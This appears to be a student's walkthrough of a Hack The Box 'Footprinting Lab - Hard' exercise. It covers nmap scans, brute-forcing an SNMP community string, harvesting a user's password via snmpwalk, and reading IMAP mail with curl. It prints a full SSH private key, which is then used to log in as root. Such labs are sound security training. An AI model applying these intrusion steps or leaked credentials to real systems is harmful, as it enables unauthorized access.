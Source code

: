 title: Footprinting Lab - Hard
date: 2024-04-15
published: True



Part of the [[Footprinting]] module, one of the learning modules for the Hack The Box CPTS course.  
## Information Gathering
The server is an MX and management server for the internal network.  
This server has the function of a backup server for the internal accounts in the domain.  
## Footprinting
### NMAP
`nmap 10.129.202.20`  

```
PORT    STATE SERVICE
22/tcp  open  ssh
110/tcp open  pop3
143/tcp open  imap
993/tcp open  imaps
995/tcp open  pop3s
```  

I see SSH, IMAP, POP3.  
Lets do a more intensive scan:  
`nmap -p 22,110,143,993,995 -sV -sC 10.129.202.20`
```  
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f4c8f10f1aebecd31247ca14eab846d (RSA)
|   256 7b30376750b9ad91c08ff702783b7c02 (ECDSA)
|_  256 889e0e07fecad05c60abcf1099cd6ca7 (ED25519)
110/tcp open  pop3     Dovecot pop3d
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_pop3-capabilities: SASL(PLAIN) UIDL PIPELINING CAPA AUTH-RESP-CODE RESP-CODES STLS USER TOP
|_ssl-date: TLS randomness does not represent time
143/tcp open  imap     Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_imap-capabilities: post-login IDLE IMAP4rev1 have ENABLE LOGIN-REFERRALS more SASL-IR Pre-login listed LITERAL+ OK AUTH=PLAINA0001 STARTTLS capabilities ID
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_imap-capabilities: IDLE IMAP4rev1 have ENABLE LOGIN-REFERRALS more SASL-IR Pre-login post-login LITERAL+ OK listed AUTH=PLAINA0001 capabilities ID
995/tcp open  ssl/pop3 Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: USER SASL(PLAIN) CAPA UIDL PIPELINING TOP AUTH-RESP-CODE RESP-CODES
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  
On the pop3 service on port 110, the following commands are allowed:  
`SASL(PLAIN) UIDL PIPELINING CAPA AUTH-RESP-CODE RESP-CODES STLS USER TOP`  
We also know it is IMAP version`IMAP4rev1`.  
Lets check UDP ports with NMAP:  
`sudo nmap 10.129.53.251 -sU`
```  
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-08 22:38 GMT
Stats: 0:11:12 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 70.80% done; ETC: 22:54 (0:04:38 remaining)
Stats: 0:14:35 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 89.20% done; ETC: 22:55 (0:01:46 remaining)
Stats: 0:18:45 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 99.99% done; ETC: 22:57 (0:00:00 remaining)
Nmap scan report for 10.129.53.251
Host is up (0.21s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
161/udp open          snmp
```  
### Footprinting SNMP
First, onesixtyone as we don't know the community string:  
`onesixtyone -c /opt/useful/SecLists/Discovery/SNMP/snmp.txt 10.129.53.251`  
```
Scanning 1 hosts, 3220 communities
10.129.53.251 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
```  
Found community string "backup"  
Next Braa:  
`braa backup@10.129.53.251:.1.3.6.*`  
```
10.129.53.251:82ms:.0:Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
10.129.53.251:82ms:.0:.10
10.129.53.251:82ms:.0:201344
10.129.53.251:2296ms:.0:Admin <tech@inlanefreight.htb>
10.129.53.251:1784ms:.0:Admin <tech@inlanefreight.htb>
10.129.53.251:1272ms:.0:Admin <tech@inlanefreight.htb>
```  
We get some good info, lets use snmpwalk since we know the community string:  
`snmpwalk -v2c -c backup 10.129.53.251`  
From the SNMPwalk output we gather a few things:  
Possible password for user tom:  
`tom NMds732Js2761`  
It is running `SNMPv2`  
With this username and password, we can try to use it with SSH or IMAP or POP3  
### Footprinting IMAP, POP3
#### IMAP
Lets try connecting to the IMAP and POP3 services using openssl:  
`openssl s_client -connect 10.129.202.20:imaps`  
After connecting to IMAP, not commands were allowed.  
Lets try using the tom credentials:  
`curl -k 'imaps://<FQDN/IP>' --user tom:NMds732Js2761`  
```
* LIST (\HasNoChildren) "." Notes
* LIST (\HasNoChildren) "." Meetings
* LIST (\HasNoChildren \UnMarked) "." Important
* LIST (\HasNoChildren) "." INBOX
```  
After looking at each folder using :  
`curl -k 'imaps://10.129.53.251' --user tom:NMds732Js2761 -X "SELECT INBOX"`  
we only found a message in INBOX:  
```
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 1 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1636509064] UIDs valid
* OK [UIDNEXT 2] Predicted next UID
```
Look at email:  
`1 FETCH 1 BODY[TEXT]`  
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
Looks like we found the private key we need for ssh.  
lets SSH as user TOM  
#### POP3
`openssl s_client -connect 10.129.202.20:pop3s`  
same result.

### Footprinting SSH
````shell-session
git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit
./ssh-audit.py 10.129.202.20  
````
It is running `OpenSSH 8.2p1`  
No apparent footholds.  
Lets try to SSH in with the username and password we found:  
tom@10.129.53.251: Permission denied (publickey).  
We will need tom's private key to SSH in.  
Using the key we found in the IMAP email and setting the permissions:  
`sudo chmod 600 /home/htb-ac-1102340/sshkey/privkey`  
I also had to change the owner of the file to `htb-ac-1102340` instead of `root`:  
`sudo chown htb-ac-1102340:htb-ac-1102340 /home/htb-ac-1102340/sshkey/privkey`  
Then I SSHed into the machine:  
`ssh -i /home/htb-ac-1102340/sshkey/privkey tom@10.129.53.251`  
could not find anything useful, lets try as root:  
`ssh -i /home/htb-ac-1102340/sshkey/privkey root@10.129.53.251`  
It worked, here we find users.sql, with the HTB user password.  
Done!
